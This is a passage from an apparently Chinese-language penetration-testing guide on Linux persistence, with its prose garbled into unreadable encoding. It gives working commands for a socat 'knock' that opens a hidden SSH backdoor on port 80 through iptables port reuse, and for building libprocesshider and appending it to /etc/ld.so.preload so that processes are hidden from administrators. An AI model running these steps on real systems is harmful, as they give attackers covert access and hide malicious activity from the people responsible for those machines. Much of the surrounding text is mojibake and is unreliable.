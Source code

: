 ���÷�ʽ��

```text
#��������
echo threathuntercoming | socat - tcp:192.168.28.128:80
#sshʹ��80�˿ڽ��е�¼
ssh -p 80 root@192.168.28.128
#�رո���
echo threathunterleaving | socat - tcp:192.168.28.128:80
```

![](../.gitbook/assets/privilege-2-4.png)

�������������[Զ��ң�� IPTables ���ж˿ڸ���](https://www.freebuf.com/articles/network/137683.html)

### 0x07 ��������

����Ա�޷�ͨ���������߲��ҵ������еĽ��̣��Ӷ��ﵽ����Ŀ�ģ�ʵ�ֽ������ء�

��һ�ַ�����libprocesshider

github��Ŀ��ַ��[https://github.com/gianlucaborello/libprocesshider](https://github.com/gianlucaborello/libprocesshider)

���� LD\_PRELOAD ��ʵ��ϵͳ�����Ľٳ֣�ʵ������

```text
# ���س������
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# �ƶ��ļ���/usr/local/lib/Ŀ¼��
cp libprocesshider.so /usr/local/lib/
# �������ص�ȫ�ֶ�̬���Ӿ�
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
